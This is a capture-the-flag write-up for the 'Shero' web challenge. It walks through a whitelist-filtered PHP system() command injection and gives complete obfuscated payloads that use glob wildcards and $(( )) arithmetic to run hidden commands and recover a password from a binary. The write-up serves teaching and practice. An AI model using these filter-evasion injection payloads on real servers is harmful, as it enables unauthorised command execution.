# Shero

## Solution 

The goal is to send this to the server:

```
cat | readflag sRPd45w_0
```

Since the initial `cat` is provided, only the pipe character onward needs to be included. 

[Solution](http://challs.nusgreyhats.org:12325/?f=|/??a???a?%20$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))-$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($((!a))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a))))))

## Thought process

On visiting the webpage, the webpage shows the following:

```php
Warning: Undefined array key "f" in /var/www/html/index.php on line 2
<?php
    $file = $_GET['f'];
    if (!$file) highlight_file(__FILE__);

    if (preg_match('#[^.cat!? /\|\-\[\]\(\)\$]#', $file)) {
        die("cat only");
    }

    if (isset($file)) {
        system("cat " . $file);
    }
?>

Deprecated: preg_match(): Passing null to parameter #2 ($subject) of type string is deprecated in /var/www/html/index.php on line 5
```

The webpage takes in a `GET` parameter named `f` that only allows certain whitelisted values.

The line `if (preg_match('#[^.cat!? /\|\-\[\]\(\)\$]#', $file)) {` shows that only these characters are allowed: `. cat!?/|-[]()$`. This can be [verified](http://challs.nusgreyhats.org:12325/?f=gg) by trying a non-whitelisted character in the `f` parameter.



The `system` call seems to suggest some form of bash injection.

The goal is to be able to find something indicative of a flag. Given that the program runs `cat`, this is insufficient to enumerate the files on the server. `ls` or another program is needed. It would also be helpful to have access to `echo` by passing it positional arguments to see what an input gets evaluated as.

Try `/?f=|/???/?c??`, which hopefully evaluates to `/bin/echo`. The `|` pipe character is used so another command can be executed instead of being passed as a positional argument to `cat`.



It seems `echo` is running, but also running with a few other positional arguments.

It appears that `???/?c??` is expanded to space-delimited files that it has matched. In this case, `echo` was matched first, followed by the other programs. In either case, `echo` works.

Next, try to find where the flag is stored. Try to match `ls` with `/usr/bin/ls` or `/bin/ls`



`ls` is not the first result. This makes `ls` impossible to match as the first result. However, googling reveals the following alternatives: `/bin/dir`.



`/bin/dir` comes as the second result, with `/bin/cat` coming in first. The second letter can be used to differentiate the two. The result can also be cleaned up by filtering on the first level `bin` folder to return only programs in the `bin` folder.



The directory structure on the server can now be viewed. The flag can be found at the root directory `/` (after a few trial and error attempts).



Note that `/bin/sed` also matches the regex used to match `/bin/dir`, but is provided as a positional argument to `dir`. This will not affect results. The relevant results can be seen after `/:`. Specifically, there is a `flag.txt` and `readflag`.

Would a naive `cat flag.txt` work? Probably not, but worth a try.



There are probably insufficient permissions for the web service process to print the flag directly. The `readflag` file seems to suggest that as well. `cat readflag` and examine its contents.


`readflag` seems to be an ELF executable (judging from the start of its contents). Using burpsuite, send the exact same `GET` request to dump out the executable file. Then, disassemble the file.



It seems that `readflag` takes in a positional argument (as seen in `argv[1]`) and is compared to `s1`. `s1` has  the contents `"sRPd45w_0"` as seen in `strcpy(s1, "sRPd45w_0")`. Therefore, the command to be invoked is `cat | readflag sRPd45w_0` to obtain the flag.

However, the password string contains characters that will not pass the whitelist check. Therefore, another way must be used to obtain the string.

Note that the binary file contains the password string needed. Then, programs that could extract data based off certain byte offsets could be used to print the necessary password string.

An accidental discovery was made with `$[]` while experimenting with the bash terminal. However, `$[]` has been deprecated and is succeeded by `$(())`. `$(())` can be used to generate numbers - for example, `$((!a))` gives 1, and `$((a))`. This happens since `a` is unlikely to be a variable that has a set value, so it defaults to 0. Then, when chained with `--`, `$(( $((!a)) -- $((!a)) ))` would give 2. This can be used to generate arbitrary numbers.

With that in mind, `cut` was the first program of choice. It supports a flag specified with `-c`, allowing users to extract specific offsets of characters. However, it did not work for binary data as it often gave inconsistent results. `cut` also works on offsets relative to the start of each new line, which was not what was needed.


It should be noted that `cut` can still generate letters, just not consistently when it comes to binary data. In this case, it does not sufficiently work.

`printf` also would not work due to `\` not being whitelisted.

However, `head` and `tail` also has a `-c` flag that allows the first N or last N bytes to be extracted respectively. Find an expression for `head` and `tail`:





While `tail` has an exact match, `head` does not. However, this will not pose a problem. `head` will process both files, which can be piped into tail to extract the last character. Since the `readflag` binary comes after the `pmap` argument, it will be last in the output of `head` and allow `tail` to work on it.



An expression to print out the passwords have been found. The relevant offsets are:

```bash
head readflag -c 8199 | tail -c 1 #s
head readflag -c 8204 | tail -c 1 #R
head readflag -c 8197 | tail -c 1 #P
head readflag -c 8205 | tail -c 1 #d
head readflag -c 8198 | tail -c 1 #4
head readflag -c 8200 | tail -c 1 #5
head readflag -c 8202 | tail -c 1 #w
head readflag -c 8201 | tail -c 1 #_
head readflag -c 8203 | tail -c 1 #0
```

Combining all previously obtained knowledge, printing `s` would look like this: (some spacebars and newline added for clarity)

```bash
$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #s

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #R

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #P

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #d

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #4

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))-$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #5

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #w

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($((!a)))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #_

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a)))))) #0
```

Apply the relevant URL encoding and strip unnecessary spaces to get the solution. It runs the equivalent of 

```bash
cat | readflag sRPd45w_0
```

on the main server.

[Solution](http://challs.nusgreyhats.org:12325/?f=|/??a???a?%20$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))-$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($((!a))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a))))))

## Similar challenges I've seen

[GryphonCTF2017](https://github.com/DISMGryphons/GryphonCTF2017-Challenges/tree/master/challenges/pwn/Bashing), based off 33c3 CTF hohoho.

